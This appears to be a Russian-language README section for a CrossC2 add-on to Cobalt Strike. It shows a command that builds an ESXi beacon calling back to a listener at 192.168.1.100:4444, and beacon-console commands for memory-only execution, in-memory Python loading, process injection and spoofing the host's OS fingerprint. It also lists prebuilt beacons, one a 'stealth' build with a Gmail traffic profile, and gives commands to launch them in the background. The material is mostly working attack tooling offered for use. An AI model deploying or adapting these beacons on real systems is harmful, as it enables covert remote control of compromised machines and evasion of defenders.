 #### 🔧 ESXi специальный beacon
```bash
./tools/genCrossC2.Linux \
  192.168.1.100 \
  4444 \
  /path/to/.cobaltstrike.beacon_keys \
  null \
  ESXI \
  x64 \
  ./esxi_beacon \
  raw
```

## 🎯 Продвинутые техники

### 💾 Memory-only execution
```bash
# В beacon консоли Cobalt Strike:
cc2-run <alias_name> <process_name> <args>
```

### 🐍 Python script в памяти
```bash
# Загрузка Python скрипта:
python-import /path/to/your_script.py
```

### 🔄 Process injection
```bash
# Инжекция в процесс:
inject <pid> <x64|x86>
```

### 🎭 Metadata spoofing
```bash
# Смена OS fingerprint:
setostype Linux
setlocalip 10.0.0.100
sethostname fake-hostname
```

## 🔥 Готовые payload'ы

В папке `payloads/` лежат готовые beacon'ы:
- `beacon_4444_x64` - Стандартный Linux x64 для порта 4444
- `beacon_44323_x64` - Стандартный Linux x64 для порта 44323  
- `stealth_beacon_4444_x64` - Стелс-версия с Gmail профилем

### Запуск:
```bash
chmod +x payloads/beacon_4444_x64
./payloads/beacon_4444_x64 &
```
